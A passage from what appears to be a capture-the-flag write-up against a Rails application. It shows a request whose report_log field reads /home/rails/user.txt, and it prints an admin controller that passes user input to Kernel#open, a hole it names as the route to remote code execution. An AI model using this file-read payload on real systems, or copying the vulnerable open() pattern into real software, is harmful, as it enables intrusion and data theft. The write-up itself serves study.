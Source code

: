 ```http
Cookie: _simple_rails_session=TiLYZIXXX8CU2LriSxudexcexpRaPkIrY7WCZgjx7FQ1158UOiivkNDNH8spedEAJHAAneVmDR7TG52E5IBVaNjtjSDftzrY%2F%2FHRKJ0fFn8oX56UjfTE3Dhtt97yrIBC%2BZbctzUmwOAUoTpmM%2FqgM4glh%2BZcH4wEKAC1PRnz0Gyc%2BvBcIFqAWA5CNVvi5hMuOj0cO077oxOan9fFnpKyS%2BIv4zqbVl6hvsTE0QFEoeeWxJrnPcnaVKEx5YO3TBiuABMMKfW8OEOPIV9WqaS8jGBBoWjKHwkUJRycichC8Y%2BCqym2X9Mk84eEef7i--lPj1DYuDKnw7odz3--e9mW0ktnlbIQvXiCHC72uA%3D%3D
Upgrade-Insecure-Requests: 1

authenticity_token=d8k7ShkPXhKVnovD4eLRvWNJFYV7JyRzLYl4R9VIftHrcWWdkB6s9ULwTbnOwh_qXhLA-0VKqblf87x4lcs3JQ&report_log=/home/rails/user.txt
```

## RCE - Kernel-level Open Function

While poking around we discover the `admin_controller` that will show us what vulnerability we can abuse to archive remote code execution.

[Ruby Vulnerabilities & Exploits](https://bishopfox.com/blog/ruby-vulnerabilities-exploits)

**/var/www/rails-app/app/controllers/admin_controller.rb**
```ruby
class AdminController < ApplicationController
  def index
    if !is_admin?
      flash[:error] = "You must be an admin to access this section"
      redirect_to :login
    end

    @report_file = helpers.get_report_file()

    @files = Dir.glob("report*log")
    p @files
  end

  def create
    if !is_admin?
      flash[:error] = "You must be an admin to access this section"
      redirect_to :login
    end

    report_log = params[:report_log]

    begin
      file = open(report_log)
      @content = ""
      while line = file.gets
        @content += line
      end
      send_data @content, :filename => File.basename(report_log)
    rescue
      redirect_to request.referrer, flash: { error: "The report was not found." }
    end

  end
end
```
